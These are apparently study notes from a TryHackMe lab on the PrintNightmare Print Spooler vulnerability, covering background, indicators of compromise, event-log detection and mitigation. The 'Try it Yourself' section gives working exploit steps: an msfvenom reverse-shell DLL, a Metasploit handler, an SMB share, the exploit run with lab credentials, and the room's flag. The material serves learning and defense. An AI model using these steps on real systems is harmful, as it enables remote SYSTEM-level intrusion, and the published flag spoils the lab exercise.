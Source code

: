 # PrintNightmare


## Introduction
```
"A remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights"
```

## Windows Print Spooler Service
- A service that runs on each computer system and manages the printing processes
- Manages print jobs, receives files to be printed, queueing them, and scheduling
- Makes sure to provide enough resources to the computers that send out print jobs
- Allows systems to act as print clients, administrative clients, or print servers
- Is enabled by defauly in all windows clients and servers, as it's necessary to have a print spooler service on the computer to connect to a printer
	- There are third party software and drivers provided by the printing manufacturers that would not require the spooler service to be enabled, but most companies prefer to utilize print spooler services
- Domain controllers mainly use print spooler service for printer pruning - process of removing the printers that are not in use anymore on the network and have been added as objects to active directory
	- This ensures that users can't reach out to non-existent printers

## Remote Code Execution Vulnerability
- What makes PrintNightmare dangerous?
	1. It can be exploited over the network; attacker doesn't need direct access to the machine
	2. The proof of concept was made public
	3. The print spooler service is enabled by default on domain controllers and computers with SYSTEM privileges

## Try it Yourself!
1. Install `impacket` from [here](https://github.com/cube0x0/impacket)
2. Install `pyasn1` (version > .0.4.2)
3. Download the [exploit from github](https://github.com/tryhackme/CVE-2021-1675)
4. Create a malicious dll with `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.46.254 LPORT=4444 -f dll -o malicious.dll`
5. Run metasploit and use these commands
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST VALUE
set LPORT VALUE
exploit
```
6. Host the dll on a smb server using impacket with `smbserver.py share /root/Desktop/share/ -smb2support `
7. Use `rpcdump.py @<ip address> | egrep 'MS-RPRN|MS-PAR' ` to check if the victim is vulnerable
8. Run the exploit with `python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@192.168.0.200 '\\192.168.0.100\share\malicious.dll'`
```
python CVE-2021-1675.py -> you're instructing Python to run the following Python script. The values which follow are the parameters the script needs to exploit the PrintNightmare vulnerability successfully.
Finance-01.THMdepartment.local -> the name of the domain controller (Finance-01) along with the name of the domain (THMdepartment.local)
sjohnston:mindheartbeauty76@192.168.0.200 -> the username and password for the low privilege Windows user account.
\\ATTACKER_IP_ADDRESS\share\malicious.dll -> the location to the SMB path storing the malicious DLL.
```
9. Get the reverse shell and use `cat C:/Users/Administrator/Desktop/flag.txt` to get `THM{SiGBQPMkSvejvmQNEL}`

## Indicators of Compromise
```
The attacker would most likely use rpcdump.py to scan for vulnerable hosts. After finding the vulnerable print server, the attacker can then execute the exploit code (similar to the Python script in the previous task), which will load the malicious DLL file to exploit the vulnerability. More specifically, the exploit code will call the pcAddPrinterDriverEx() function from the authenticated user account and load the malicious DLL file in order to exploit the vulnerability. The pcAddPrinterDriverEx() function is used to install a printer driver on the system.
```
- A few things to look for:
```
Search for the spoolsv.exe process launching rundll32.exe as a child process without any command-line arguments
Considering the usage of the pcAddPrinterDriverEx() function, you will mostly find the malicious DLL dropped into one of these folders %WINDIR%\system32\spool\drivers\x64\3\ folder along with DLLs that were loaded afterward from %WINDIR%\system32\spool\drivers\x64\3\Old\ (You should proactively monitor the folders for any unusual DLLs)
Hunt for suspicious spoolsv.exe child processes (cmd.exe, powershell.exe, etc.)
The attacker might even use Mimikatz to perform the attack, in this case, a print driver named ‘QMS 810’ will be created. This can be detected by logging the registry changes (e.g., Sysmon ID 13).
Search for DLLs that are part of the proof-of-concept codes that were made public, such as MyExploit.dll, evil.dll, addCube.dll, rev.dll, rev2.dll, main64.dll, mimilib.dll. If they're present on the endpoint, you can find them with Event ID 808 in Microsoft-Windows-PrintService.
```

## Detection: Windows Event Logs
- Windows event logs - detailed records of security, system, and application notifications created by the OS
- The logs that are related to Print Spooler:
	- Microsoft-Windows-PrintService/Admin
	- Microsoft-Windows-PrintService/Operational
- Detect PrintNightmare artifacts by looking at the endpoints events or windows event logs
```
Microsoft-Windows-PrintService/Operational (Event ID 316) - look for "Printer driver [file] for Windows x64 Version-3 was added or updated. Files:- UNIDRV.DLL, AddUser.dll, AddUser.dll. No user action is required.”
Microsoft-Windows-PrintService/Admin (Event ID 808) - A security event source has attempted to register (can detect unsigned drivers and malicious DLLs loaded by spoolsv.exe)
Microsoft-Windows-PrintService/Operational (Event ID 811) - Logs the information regarding failed operations. The event will provide information about the full path of the dropped DLL.
Microsoft-Windows-SMBClient/Security (Event ID 31017) - This Event ID can also be used to detect unsigned drivers loaded by spoolsv.exe.
Windows System (Event ID 7031) - Service Stop Operations (This event ID will show you unexpected termination of print spooler service).
```
- Can also use the system monitor (sysmon) to detect it
```
Microsoft-Windows-Sysmon/Operational (Event ID 3) - Network connection (Look for suspicious ports)
Microsoft-Windows-Sysmon/Operational (Event ID 11) - FileCreate (File creation events are being logged,  you can look for loaded DLLs in the Print Spooler’s driver directory: C:\Windows\System32\spool\drivers\x64\3)
Microsoft-Windows-Sysmon/Operational (Event IDs 23, 26) - FileDelete (You can hunt for deleted malicious DLLs)
```

## Detection: Packet Analysis
```
Packet captures (pcap) play a crucial role in detecting signs of compromise.

If you are not familiar with Wireshark, no worries. You can learn more about Wireshark and how to analyze the packet captures by joining the Wireshark 101 room. It will be a lot of fun!

Detecting the PrintNightmare attack, specifically to (CVE-2021-1675 and CVE-2021-34527) by analyzing the network traffic is not as easy as inspecting the artifacts like Windows Event Logs on the victim's machine. The attacker relies on adding a printer driver using DCE/RPC commands RpcAddPrinterDriver or RpcAddPrinterDriverEx.

DCE/RPC stands for Distributed Computing Environment/Remote Procedure Calls and is the remote procedure call that establishes APIs and an over-the-network protocol.  But what makes the detection of the attack harder is that there are legitimate uses for RpcAddPrinterDriver or RpcAddPrinterDriverEx commands, so you cannot always rely only on the network traffic analysis to be confident that the PrintNightmare attack occurred in your environment. According to Corelight, it can get even harder to detect, especially if the exploit wraps the DCE/RPC calls in SMB3 encryption. To identify the encrypted DCE/RPC calls, you need to somehow decrypt and decode the payloads, which is a time-consuming task.

Corelight also released a Zeek package that detects the printer driver additions over DCE/RPC commands that are not encrypted.
```

## Mitigation: Disable Print Spooler
- Disable print spooler on all domain controllers and modify the registry settings
- [Microsoft guide](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- Determine if Print Spooler is running with `Get-Service -Name Spooler`
- Disable Print Spooler service
	- `Stop-Service -Name Spooler -Force`
	- `Set-Service -Name Spooler -StartupType Disabled`
	- This removes the ability to print locally and remotely
- Disable inbound remote printing through Group Policy
